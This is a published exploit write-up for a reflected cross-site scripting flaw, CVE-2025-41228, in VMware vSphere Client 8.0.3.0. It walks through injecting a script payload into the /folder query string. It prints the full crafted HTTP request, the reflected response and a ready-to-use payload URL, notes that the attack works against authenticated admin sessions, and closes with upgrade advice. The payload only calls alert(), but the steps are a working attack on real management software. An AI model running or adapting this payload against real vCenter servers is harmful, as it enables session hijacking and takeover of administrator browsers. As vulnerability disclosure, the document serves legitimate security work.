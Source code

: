 # VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)

- **Exploit Title**: VMware vSphere Client 8.0.3.0 - Reflected Cross-Site Scripting (XSS)
- **Date**: 2025-08-08
- **Exploit Author**: Imraan Khan (Lich-Sec)
- **Vendor Homepage**: [https://www.vmware.com](https://www.vmware.com)
- **Version**: vSphere Client 8.0.3.0
- **Tested On**: Web interface (Chrome 138)
- **CVE**: CVE-2025-41228
- **Category**: WebApps

---

## Description

A reflected Cross-Site Scripting (XSS) vulnerability exists in VMware vSphere Client version 8.0.3.0. The application fails to sanitize input passed via a query string to the `/folder` endpoint, resulting in arbitrary JavaScript execution when the reflected value is rendered into an HTML form’s `action` attribute.

The vulnerability was confirmed by intercepting a request through Burp Suite and injecting a malicious payload. This XSS only successfully executes when the response is rendered by a browser within an **active session**, such as one initiated via prior authentication.

---

## Steps to Reproduce

### 1. Initiate request to vulnerable endpoint

Open a browser and navigate to:

```
https://host/folder
```

This sends a benign request that you will intercept.

![Browser navigation to folder endpoint](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/browse.png)
![Folder directory listing](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/folder-dir.png)

---

### 2. Intercept and modify the request using Burp Suite

With Burp Suite proxy enabled, capture the request and modify the query string to inject the XSS payload:

```
GET /folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1 HTTP/2
Host: 10.x.x.x
Accept-Encoding: gzip, deflate, br
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Referer: https://10.x.x.x/
Sec-Ch-Ua: "Chromium";v="138", "Not;A=Brand";v="24", "Google Chrome";v="138"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
Content-Length: 0
```

![Modified request in Burp Suite](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/request.png)

Then forward the request to the server.

---

### 3. Observe the reflected payload in the HTTP response

In the Burp HTTP Response, the payload appears unencoded within the HTML:

```html
<form action="/folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1" method="POST">
  <input name="VMware-CSRF-Token" type="hidden" value="..." />
```

![Reflected XSS payload in response](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/response.png)

This confirms that the payload is reflected back into the HTML in a dangerous context — inside a form’s `action` attribute — allowing script execution. 

---

### 4. Trigger script execution

Because the XSS is reflected but only renders within the full browser context, to observe the popup:

- Forward the exact same malicious request using Burp **with an authenticated session (cookies included)**.
- OR, use Burp's **"Open in Browser"** feature (with session cookies) to request the full response as a browser would.

Upon rendering the page, the browser will execute the injected `<script>`.

Example payload URL:

```
https://192.168.x.x/folder?ht7j4"><script>alert('ThisIsAVulnerableVersionOfVSphereThatIsVulnerableToXSS')</script>tnkav=1
```

![JavaScript alert triggered](https://raw.githubusercontent.com/stSLAYER/Lich-Sec/main/CVE/CVE-2025-41228/vcenter-exploit/popup.png)

--- 

## Impact

Successful exploitation results in arbitrary JavaScript execution within the vSphere Client’s web interface. This could be leveraged for phishing, session hijacking, or further compromise of the admin's browser session.

---

## Recommendation

Upgrade to VMware vCenter Server version **8.0 U3e or later**, which remediates **CVE-2025-41228**.

---

## References

- https://github.com/stSLAYER/Lich-Sec/tree/main/CVE/CVE-2025-41228
- https://nvd.nist.gov/vuln/detail/CVE-2025-41228
- https://www.vmware.com/security/advisories

